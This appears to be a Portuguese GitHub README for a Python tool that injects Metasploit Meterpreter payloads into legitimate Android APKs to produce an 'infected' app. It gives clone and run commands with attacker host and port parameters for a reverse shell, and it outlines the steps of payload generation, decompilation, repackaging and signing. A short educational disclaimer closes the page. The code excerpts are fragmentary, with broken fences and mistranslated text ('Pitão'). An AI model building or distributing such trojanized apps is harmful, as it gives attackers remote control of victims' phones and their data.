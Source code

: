 # Payload APK 
O Payload APK é uma ferramenta simples para injetar payloads Metasploit em aplicativos Android legítimos. Este script automatiza o processo de criação de um APK infectado para fins de teste e pesquisa.

## Requisitos

Certifique-se de ter as seguintes dependências instaladas no seu sistema:

- [APKTool](https://ibotpeaches.github.io/Apktool/)
- [Jarsigner](https://docs.oracle.com/en/java/javase/11/tools/jarsigner.html) ou [APKSigner](https://github.com/iBotPeaches/Apktool)

## Uso

1. Clone o repositório:

    ```bash
    git clone https://github.com/sucloudflare/payload_apk.git
    ```

2. Navegue até o diretório do script:

    ```bash
    cd payload_apk
    ```

3. Execute o script com os argumentos necessários:

    ```bash
    python payload_apk.py --lhost SEU_ENDERECO_IP --lport SUA_PORTA --normal-apk CAMINHO_APK_LEGITIMO --apk-name NOME_APK
    ```

    Certifique-se de substituir `SEU_ENDERECO_IP`, `SUA_PORTA`, `CAMINHO_APK_LEGITIMO` e `NOME_APK` pelos valores desejados.

4. O arquivo APK infectado será gerado no diretório e estará disponível como `Final_Infected.apk`.

<h1>Explicação</h1>

Esse código é um script Python que automatiza o processo de criação de um APK infectado com um payload Meterpreter para fins educacionais e de pesquisa. Aqui está uma breve explicação de cada parte do código: 

    Importação de Bibliotecas: 

    Pitão 

import os
import subprocess
import argparse
import random
import banner
import shutil

O script faz uso de bibliotecas padrão do Python para realizar várias operações, como manipulação de sistema, subprocessos, análise de argumentos da linha de comando, geração de números aleatórios e manipulação de banners. 

Definição de Cores: 

Pitão 

    ```BLUE, RED, WHITE, YELLOW, MAGENTA, GREEN, END = '\33[94m', '\033[91m', '\33[97m', '\33[93m', '\033[1;35m', '\033[1;32m', '\033[0m'
    ```
    
São constantes para melhorar a legibilidade da saída colorida do terminal. 

Obtenção de Argumentos da Linha de Comando:

Pitão 

    ```def obter_argumentos():
    # ...
    ``
O script usa a biblioteca  argparse para analisar e obter os argumentos passados pela linha de comando.

Verificação de Dependências: 

Pitão 

    ```def verificar_dependencias(dependencia, nome):
    # ...
def verificar_dependencias_e_atualizacoes():
    # ...
    ``
Essas funções verificam se as dependências necessárias, como  apktool,  jarsigner,  apksigner e  zipalign, estão instaladas no sistema. Se não estiverem, o script oferece a opção de instalá-las. 

Função Principal ( main): 

Pitão 

    ```def main():
        arguments = obter_argumentos()  
        # ...
    ```
    A função principal do script onde todo o processo é coordenado. Ele obtém os argumentos da linha de comando, gera variáveis aleatórias, verifica dependências, gera um payload Meterpreter, realiza a descompilação do APK original, faz modificações, compila o APK infectado, assina e ajusta o alinhamento do APK.

O código é bastante extenso, e detalhes específicos de cada função foram omitidos aqui. Se você tiver dúvidas sobre partes específicas ou quiser uma explicação mais detalhada de alguma seção, por favor, sinta-se à vontade para pergunta 


## Contribuindo

Se você encontrar problemas ou tiver sugestões para melhorias, sinta-se à vontade para abrir uma [issue](https://github.com/sucloudflare/payload-apk-generator/issues) ou enviar um [pull request](https://github.com/sucloudflare/payload-apk-generator/pulls).

## Aviso Legal

Este script é destinado apenas para fins educacionais e de pesquisa. O uso indevido deste script em ambientes não autorizados é estritamente proibido.

